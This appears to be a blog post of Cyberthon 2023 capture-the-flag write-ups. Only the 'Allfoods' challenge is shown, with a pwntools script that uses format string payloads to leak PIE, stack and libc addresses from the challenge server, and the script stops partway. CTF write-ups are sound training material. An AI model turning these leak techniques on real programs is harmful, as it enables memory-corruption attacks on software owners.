 ```yaml
---
title: Cyberthon 2023 Writeups
date: 2023-05-11
categories:
    - writeups
tags:
    - pwn
---
```


Writeups for Cyberthon 2023

- <a href="#allfoods">Allfoods</a>
- <a href="#flagmin">Flagmin</a>
- <a href="#passgen">Passgen</a>
- <a href="#tune-of-apocalypse">Tune of Apocalypse</a>
- <a href="#wordpocalypse">Wordpocalypse</a>

<h1 id="allfoods">Allfoods</h1>

This challenge is a simple format string read and write. In this case, full
RELRO is enabled so we can't overwrite the GOT. We can leak a stack address and
use it to calculate the address of RIP.

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./allfoods_patched")
libc = ELF("./libc.so.6")

context.binary = exe

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p)
            pause()
    else:
        p = remote("chals.f.cyberthon23.ctf.sg", 43030)

    return p


def main():
    p = conn()

    # good luck pwning :)
    # 47 is pie, 45 is stack leak
    p.sendline(b"%47$p,%45$p")
    p.recvuntil(b"Here's your: ")
    pie = int(p.recvuntil(b",", drop=True), 16) - exe.sym.main
    print(hex(pie))
    exe.address = pie

    leak = int(p.recvline().strip(), 16)
    rip = leak - 0xf0

    p.sendline(b"%9$saaaa" + p64(exe.got.printf))
    p.recvuntil(b"Here's your: ")
    libc_base = u64(p.recvuntil(b"aaaa", drop=True).ljust(8, b'\0')) - libc.sym.printf
    print(hex(libc_base))
    libc.address = libc_base
```